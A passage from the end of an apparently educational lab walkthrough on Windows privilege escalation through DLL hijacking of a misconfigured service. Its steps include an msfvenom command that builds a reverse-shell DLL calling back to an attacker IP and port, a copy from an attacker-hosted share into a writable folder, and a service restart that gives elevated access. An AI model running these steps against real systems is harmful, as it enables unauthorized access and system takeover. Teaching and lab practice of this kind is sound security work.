 From the output:

-   We can see the number of NOT FOUND error messages for hijackme.dll file
-   We can see Windows is trying to go into each folder to find the file, and at some point, it went into `C:\Temp\` folder `where we have write permission` to find hijackme.dll file
-   We can create our file with a reverse shell named hijackme.dll and put it in this folder, and Windows will execute it.

##### Step 8. 
Create DLL reverse shell in Linux using this command
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.217 LPORT=7676 -f dll -o hijackme.dll`

-   Please change the IP address of the command to yours and port number to the one you want to listen to.
-   Transfer this file into the `C:\Temp` folder by `copy \\192.168.1.217\tools\hijackme.dll C:\Temp\`

##### Step 9.
-   Create a listener on your Linux machine
 
-   Stop the dllsvc service and restart it again. 
 ![listerner](listerner_final.png)

 In the above output, we can see we have successfully escalated our privileges.


Congratulations for making it to the end of this lengthy post. The above step-by-step explanation of how to exploit service misconfigurations can be used on any Windows system, but to get the best out of this write-up, we used this lab.